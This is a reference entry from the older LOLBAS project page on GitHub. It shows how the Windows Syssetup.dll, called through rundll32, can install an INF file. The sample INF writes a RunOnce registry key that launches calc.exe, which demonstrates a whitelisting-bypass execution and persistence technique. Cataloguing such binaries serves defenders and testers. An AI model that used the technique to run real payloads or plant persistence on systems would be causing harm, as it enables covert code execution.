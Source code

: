 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Syssetup.dll

* Functions: Execute

```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 c:\temp\calc.INF
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken
* Matt harr0ey - @harr0ey  

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/994392481927258113
* https://twitter.com/harr0ey/status/975350238184697857

Full path:
```
c:\windows\system32\Syssetup.dll
c:\windows\sysWOW64\Syssetup.dll
```

Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```



Detection:

 
